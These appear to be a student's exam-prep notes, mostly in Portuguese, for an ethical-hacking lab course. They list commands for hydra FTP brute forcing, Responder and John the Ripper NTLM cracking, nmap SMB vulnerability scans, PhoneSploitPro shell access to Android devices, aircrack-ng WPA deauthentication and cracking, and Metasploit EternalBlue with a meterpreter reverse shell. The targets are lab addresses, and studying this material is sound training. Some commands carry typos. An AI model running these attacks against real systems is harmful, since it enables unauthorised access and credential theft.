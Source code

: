 Questões do Ilabguide / bookshelf
Atividades passadas pelo instrutor e Anotações Importantes para prova.


## 01 https://bookshelf.vitalsource.com/reader/books/9798894721378/pageid/1842

“Attempt FTP login on target IP 10.10.1.11 with hydra using usernames and passwords from wordlists” The output of this prompt results in the following command:
hydra -L/usr/share/wordlists/ftp-usernames.txt -p /usr/share/wordlists/ftp-passwords.txt ftp://10.10.1.11


## 02 https://bookshelf.vitalsource.com/reader/books/9798894721378/pageid/4363
moviescoope:

GET da aplicacao moviescope.com pegando data de niver do usuario john
view profile:



## 03 https://bookshelf.vitalsource.com/reader/books/9798894721378/pageid/4499
The Login page appears; log in into the website using the retrieved credentials john/qwerty. 


## 04 https://bookshelf.vitalsource.com/reader/books/9798894721378/pageid/4570
https://bookshelf.vitalsource.com/reader/books/9798894721378/pageid/4578
https://bookshelf.vitalsource.com/reader/books/9798894721378/pageid/4580
https://bookshelf.vitalsource.com/reader/books/9798894721378/pageid/4581

MQTT Obs: Como encontrar o pacote, tamanho da mensagem MQTT é flag.  


Port 1883 is the default MQTT port; 1883 is defined by IANA as MQTT over TCP.
usar wireshark:

Type mqtt under the filter field and press Enter. To display only the MQTT protocol packets.
. Select any Publish Message packet from the Packet List pane. In the Packet Details pane at the middle of the window, expand the Transmission Control Protocol, MQ Telemetry Transport Protocol, and Header Flags nodes.
50. Under the MQ Telemetry Transport Protocol nodes, you can observe details such as Msg Len, Topic Length, Topic, and Message.
51. Publish Message can be used to obtain the message sent by the MQTT client to the broker.


## 05 https://bookshelf.vitalsource.com/reader/books/9798894721378/pageid/641
https://bookshelf.vitalsource.com/reader/books/9798894721378/pageid/644
https://bookshelf.vitalsource.com/reader/books/9798894721378/pageid/651
https://bookshelf.vitalsource.com/reader/books/9798894721378/pageid/654
https://bookshelf.vitalsource.com/reader/books/9798894721378/pageid/657
https://bookshelf.vitalsource.com/reader/books/9798894721378/pageid/668 ***
https://bookshelf.vitalsource.com/reader/books/9798894721378/pageid/675 *** batman <kkkkkkkkkk>

NTLM: pwdump7 / Responder
Responder -I eth0
cd /usr/share/responder/logs
copiar toda hash ate nome do usuario.
vi hash.txt
john hash.txt ----wordlist=
john –-rules --wordlist=</path_to/output_wordlist.txt> format=NT /path/to/ntlm_hashes.txt 
-- show pra ver..


## 06 https://bookshelf.vitalsource.com/reader/books/9798894721378/pageid/539
https://bookshelf.vitalsource.com/reader/books/9798894721378/pageid/540
https://bookshelf.vitalsource.com/reader/books/9798894721378/pageid/541

locate *.NSE | grepe SMB-
nmap -sV <targ> --script=smb-vuln
nmap -p 139 –-script smb-protocols <Target IP>


## 07 https://bookshelf.vitalsource.com/reader/books/9798894721378/pageid/2661
https://bookshelf.vitalsource.com/reader/books/9798894721378/pageid/4538
https://bookshelf.vitalsource.com/reader/books/9798894721378/pageid/4539
https://bookshelf.vitalsource.com/reader/books/9798894721378/pageid/4544

nmap -sV -p 5555 <targ> --open
nmap -sn -PE 10.10.10.0/24

cd PhoneSploitpro
python3 PhoneSploitpro.py

1: Connect a Device <targ>
14: Acess Device Shell 

pwd
sdcard
ls
/sdcard/Download/images.jpeg
 Type exit and press Enter
8: Download File/Folder from Device

## 09 https://bookshelf.vitalsource.com/reader/books/9798894721378/pageid/4526
https://bookshelf.vitalsource.com/reader/books/9798894721378/pageid/4531   ****
https://bookshelf.vitalsource.com/reader/books/9798894721378/pageid/4532


 aireplay-ng -0 11 -a 22:7F:AC:6D:E6:8B -c EE:AB:46:A7:CF:18 wlx00e02d886189 and press Enter.
 aircrack-ng -a2 22:7F:AC:6D:E6:8B -w password.txt 

 aircrack-ng -w dicionario.txt pacotescapturados.pcap



## 10 https://bookshelf.vitalsource.com/reader/books/9798894721378/pageid/3996
https://bookshelf.vitalsource.com/reader/books/9798894721378/pageid/4096
https://bookshelf.vitalsource.com/reader/books/9798894721378/pageid/4150
https://bookshelf.vitalsource.com/reader/books/9798894721378/pageid/4154

https://tryhackme.com/room/blue

ms17-010 - eternal blue
msfconsole
search ms17-010 
use exploit/windows/smb/ms17_010_eternalblue or choose number
options
set rhosts <10.10.10.7 targ> 
set payload windows/x64/meterpreter/reverse_tcp
exploit
Impacke
exploit/windows/smb/ms17_010_eternalblue


## 11 https://bookshelf.vitalsource.com/reader/books/9798894721378/pageid/4640
https://bookshelf.vitalsource.com/reader/books/9798894721378/pageid/4643


veracrypt 
select file 
--mount secret
password qwerty@123

## 12 https://bookshelf.vitalsource.com/reader/books/9798894721378/pageid/907
https://www.openstego.com/index-es.html

openstego
Extract Data
Input Stego File < imagem que possa esta encryptada >
Output Folder For Messager File < mensagem extraida caso tenha >
Password ? exemplo Batman, qwerty@123, imagination 






